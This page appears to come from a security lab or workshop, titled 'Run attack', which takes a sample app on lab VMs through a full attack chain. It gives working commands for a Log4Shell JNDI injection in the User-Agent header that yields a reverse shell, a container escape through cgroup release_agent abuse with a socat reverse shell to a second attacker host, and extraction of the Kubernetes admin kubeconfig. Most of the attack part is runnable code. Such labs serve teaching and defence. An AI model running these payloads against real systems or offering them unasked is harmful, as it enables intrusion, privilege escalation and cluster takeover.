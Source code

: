 +++
title = "Run attack"
weight = 8
+++

Now let's start the attack. The following HTTP request triggers a log4shell vulnerability because the app logs the user agent.

Because of that log4j will connect to the attacker's LDAP server, which will provide a Java class that gets executed by the sample app and create a remote shell from the container to the attacker's netcat session:

Run the following commands on the victim01 VM.

```ctr
curl http://sample-app.default.${vminfo:victim01:public_ip}.sslip.io/login -d "uname=test&password=invalid" -H 'User-Agent: ${jndi:ldap://${vminfo:attacker01:public_ip}:1389/a}'
```

The attacker01 VM now received a remote shell from the container.

Run the following commands on the attacker01 VM.

We can list the container filesystem

```ctr:
ls -la
```

or the running processes

```ctr:
ps auxf
```

Let's try to install kubectl into the container

```ctr:
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod +x kubectl; mv kubectl /usr/bin/
```

And access the Kubernetes API. This should create an error, because the Pod's ServiceAccount does not have any permissions to access the Kubernetes API:

```ctr:
kubectl get pods
```

Let's try something else and list the Linux capabilities of the container

```ctr:
capsh --print
```

Not that our container does not have `cap_sys_admin` capabilities.

Let's try to change this by exploiting a Kernel vulnerability:

```ctr:
unshare -UrmC bash
capsh --print
```

Now that we have `cap_sys_admin` capabilities. We can try to exploit another Kernel bug to break out of the container and create a second remote shell from the host system to the attacker02 VM.

Create a new RDMA cgroup

```ctr:attacker01
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```

Enables cgroup notifications on release of the "x" cgroup

```ctr:
echo 1 > /tmp/cgrp/x/notify_on_release
```

Get the path of the OverlayFS mount for our container

```ctr:
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
```

Set the release agent to execute `/{overlay_fs_host_path}/cmd` on the host (`/cmd` inside of the container) when the cgroup is released

```ctr:
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```

Create the command, which will run socat and create a remote shell to the attacker02 VM

```ctr:
echo '#!/bin/bash' > /cmd
echo "socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:${vminfo:attacker02:public_ip}:4444" >> /cmd
chmod a+x /cmd
```

Run `echo` in the cgroup, which will directly exit and trigger the release agent cmd (execute `/{overlay_fs_host_path}/cmd`):

```ctr:
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

Now we got a remote shell on the attacker02 VM where we are root directly on the victim01 host

Run the following commands on the attacker02 VM.

```ctr:
whoami
docker ps
```

Install kubectl

```ctr:
docker cp kubelet:/usr/local/bin/kubectl /usr/bin/
```

Get kubeconfig

```ctr:
kubectl --kubeconfig $(docker inspect kubelet --format '{{ range .Mounts }}{{ if eq .Destination "/etc/kubernetes" }}{{ .Source }}{{ end }}{{ end }}')/ssl/kubecfg-kube-node.yaml get configmap -n kube-system full-cluster-state -o json | jq -r .data.\"full-cluster-state\" | jq -r .currentState.certificatesBundle.\"kube-admin\".config | sed -e "/^[[:space:]]*server:/ s_:.*_: \"https://127.0.0.1:6443\"_" > kubeconfig_admin.yaml

export KUBECONFIG=$(pwd)/kubeconfig_admin.yaml
```

Now we are admin in the Kubernetes cluster

```ctr:
kubectl get pods -A
```
